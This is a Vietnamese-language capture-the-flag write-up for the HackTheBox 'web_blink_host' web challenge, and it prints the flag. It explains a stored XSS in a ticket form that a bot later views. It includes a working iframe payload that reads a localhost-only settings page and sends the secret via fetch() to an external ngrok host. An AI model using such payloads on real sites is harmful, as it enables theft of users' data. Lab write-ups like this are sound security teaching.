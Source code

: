 ![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/Untitled.png)
ta tiến hành đọc code và thấy rằng ở tệp __challenge/views/settings.html__ có flag nằm ở thẻ input
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/4.png)
<br />
tệp challenge/routes/index.js có đoạn code mô tả
chỉ cần truy cập vào đường dẫn __/settings__  thì sẽ nhận response là __settings.html__ nhưng mà đường dẫn này chỉ có ip localhost mới được truy cập.
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/1.png)

ở đoạn mã này có mô tả, ta chỉ cần gửi 1 gói __json gồm có name, email, website, message__ thì sẽ lưu vào database
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/3.png)
và sau đó con bot sẽ tiến hành truy cập đến đường dẫn __/tickets__
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/%60.png)

khi vào đường dẫn __/tickets__  này, sẽ hiện thị ra toàn bộ dữ liệu trong table __tickets__ 
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/2.png)

bây giờ ta chỉ cần chèn mã script vào bất kỳ trường __name, email, website, message__ trong gói json gửi lên __/api/submit_ticket__   để thực hiện XSS yêu cầu con bot truy cập đến đường dẫn __/settings__ trên web và truy xuất đến thẻ input thứ 5 lấy value cũng chính là glag gửi flag về máy mình
``` 
<iframe id="iframetrung" src="settings" onload=fetch("http://027d-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io/?flag="+btoa(document.getElementById('iframetrung').contentWindow.document.getElementsByTagName("input")[4].value)); >
</iframe>
```
 dùng công cụ ngrok để nhận flag gửi về
__HTB{bl1nk_bl1nk_bl1nd_bl1nd}__
<br />

[source của bài này](https://github.com/magnetohvcs/ctf/raw/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/web_blink_host.zip)
